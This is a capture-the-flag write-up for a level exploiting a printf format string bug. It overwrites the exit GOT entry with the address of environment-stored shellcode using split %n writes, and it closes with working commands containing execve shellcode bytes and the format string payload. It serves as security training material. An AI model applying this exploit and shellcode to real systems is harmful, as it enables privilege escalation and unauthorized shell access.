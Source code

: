 # LEVEL 05

## EXPLANATIONS

### BINARY BEHAVIOR

- fgets stdin into stack buffer
- modify buffer with `strtolower` on buffer
- printf(buff) => format string exploit

### EXPLOIT STRATEGY

- GOT entry of exit : 0x80497e0
- => create an env variable which contains the SHELLCODE
- => find the env variable address (we found an utilitary written in C to do this)
- => as the shellcode address is 0xffffdfc2, necessary padding for the %n exploit would be 4294959042
  - => we split it in two 2bytes parts, writing them at 0x80497e0 and 0x80497e2
    - => 0xffff => 0x80497e2
    - => 0xdfc2 => 0x80497e0
  - => We overwrite the address of exit in the GOT table {0x8048370} by the address of the SHELLCODE env variable {0xffffdfc2} with 'n' identifier of printf

### RUN COMMAND

```
export SHELLCODE=$(python -c "print('\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80')")
python -c "print('\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1]  + '%57274x' + '%10\$n' + '%8253x' + '%11\$n')" > /tmp/exploit_string
cat /tmp/exploit_string - | env - PWD=$PWD SHELLCODE=$SHELLCODE /home/users/level05/level05
```
